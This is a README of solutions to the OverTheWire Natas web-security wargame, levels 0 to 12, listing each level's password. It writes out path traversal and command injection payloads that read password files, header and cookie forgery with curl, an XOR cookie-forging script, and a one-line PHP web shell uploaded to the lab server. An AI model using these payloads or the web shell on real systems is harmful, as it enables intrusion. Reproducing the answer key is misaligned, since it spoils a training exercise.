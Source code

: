 # NatasChallenge
This is the solution to all Natas levels

### Level 0 [(http://natas0.natas.labs.overthewire.org/)](http://natas0.natas.labs.overthewire.org/)
```
1.View the web page source
2.You will find the natas1 password : g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```
---
### Level 1 [(http://natas1.natas.labs.overthewire.org/)](http://natas1.natas.labs.overthewire.org/)
```
1.use "view-source" to see the page source like this : view-source:http://natas1.natas.labs.overthewire.org/
2.You will find the natas2 password : h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```
---
### Level 2 [(http://natas2.natas.labs.overthewire.org/)](http://natas2.natas.labs.overthewire.org/)
```
1.View the page source
2.Go to location of the img tag : '<img src="files/pixel.png">'
3.Go to files directory
4.You will see the users.txt, open it
5.You will see natas3 password : G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```
---
### Level 3 [(http://natas3.natas.labs.overthewire.org/)](http://natas3.natas.labs.overthewire.org/)
```
1.View the page source, and you see the comment mentioning "No more information leaks!! Not even Google will find it this time..."
2.From the above sentence we understand that google can not find it (it means google robots)
3.Go to robots.txt and you see the "Disallow: /s3cr3t/"
4.Go to "/s3cr3t/" directory and you see the users.txt, open it
5.You will find the natas4 password : tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```
---
### Level 4 [(http://natas4.natas.labs.overthewire.org/)](http://natas4.natas.labs.overthewire.org/)
```
1.The site says you should visit it from a special address
2.Just set the "referer" header with cURL
3.Base64 encode the natas4 credentials -> natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm and put it in "Authorization header"
4.Curl like this : curl http://natas4.natas.labs.overthewire.org/ -H "Authorization: basic bmF0YXM0OnRLT2NKSWJ6TTRsVHM4aGJDbXpuNVpyNDQzNGZHWlFt" -H "referer: http://natas5.natas.labs.overthewire.org/"
5.You will recieve the natas5 password : Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```
---
### Level 5 [(http://natas5.natas.labs.overthewire.org/)](http://natas5.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas5.natas.labs.overthewire.org/index.php -H "Authorization: Basic bmF0YXM1OlowTnNydElrSm9LQUxCQ0xpNWVxRmZjUk44MkF1Mm9E" -H "Cookie: loggedin=1"
2.You will get the natas6 password : fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```
---
### Level 6 [(http://natas6.natas.labs.overthewire.org/)](http://natas6.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas6.natas.labs.overthewire.org/includes/secret.inc -H "Authorization: Basic bmF0YXM2OmZPSXZFME1EdFBUZ1JocW1tdnZBT3QyRWZYUjZ1UWdS"
2.You will get secret : FOEIUWGHFEEUHOFUOIU
3.Submit the secret and you will get the natas 7 password : jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
---
### Level 7 [(http://natas7.natas.labs.overthewire.org/)](http://natas7.natas.labs.overthewire.org/)
```
1.Visit the page like this : http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../..//etc/natas_webpass/natas8
2.You will get the natas8 password : a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```
---
### Level 8 [(http://natas8.natas.labs.overthewire.org/)](http://natas8.natas.labs.overthewire.org/)
1.Read the source code and reverse the process
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
$result =  base64_decode(strrev(hex2bin($encodedSecret)));
echo $result;
```
2.You will get the "oubWYf2kBq" submit this secret and you will get the password of natas9 : Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

---
### Level 9 [(http://natas9.natas.labs.overthewire.org/)](http://natas9.natas.labs.overthewire.org/)
```
1.Source code has command injection vulnerability
2.Use this payload : "t; cat /etc/natas_webpass/natas10" to grab the password
3.You will get the password of nata10 : D44EcsFkLxPIkAAKLosx8z3hxX1Z4
```
---
### Level 10 [(http://natas10.natas.labs.overthewire.org/)](http://natas10.natas.labs.overthewire.org/)
```
1.Use this payload to bypass filters : "-v  test /etc/natas_webpass/natas11" or "-r . /etc/natas_webpass/* #"
2.You will get the password of natas11 : 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```
---
### Level 11 [(http://natas11.natas.labs.overthewire.org/)](http://natas11.natas.labs.overthewire.org/)
```
Rule1 : key XOR cleartext = ciphertext
Rule2 : ciphertext XOR cleartext = key
we have ciphertext (cookie)
we get cleartext (step 3)
we generate key (step 4)
```
1.Copy the value of cookie in the browser

2.URL decode and base64 decode the value of cookie taken from step 1 (online cyberchef)

3.Use an online PHP editor and run the following code to get the json encoded value of array :

```php
<?php
echo json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
?> 
```
4.XOR the value of step 2 with value of step 3 (online cyberchef)

5.you will get the key : KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLK, the key is KNHL

6.Use this PHP code to generate a new cookie
```php
<?php
$mydata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
$result = base64_encode(xor_encrypt(json_encode($mydata)));
echo $result;
?>
```
7.Replace the generated value of step 6 into cookie storage of the browser and refresh

8.You will get the password of natas12 : YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

---
### Level 12 [(http://natas12.natas.labs.overthewire.org/)](http://natas12.natas.labs.overthewire.org/)
```
1.We can upload any file type to the server but when doing that in the browser, the file name is chaned to [filename].jpg according to a hidden field of the form
2.We can upload the file using curl command
```

```bash
3.curl -u "natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG" -F "filename=a.php" -F "uploadedfile=@./a.php" http://natas12.natas.labs.overthewire.org
```

![na](https://github.com/Git-K3rnel/NatasChallenge/assets/127470407/6dcae8fa-7be9-401b-bf6b-6886afc47140)

So we uploaded our file with the following code inside :

```php
<?=`$_GET[0]`?>
```
4.Now navigate to `http://natas12.natas.labs.overthewire.org/upload/styy6v78bl.php?0=cat%20/etc/natas_webpass/natas13`

5.You will get the password of natas13 : lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

---
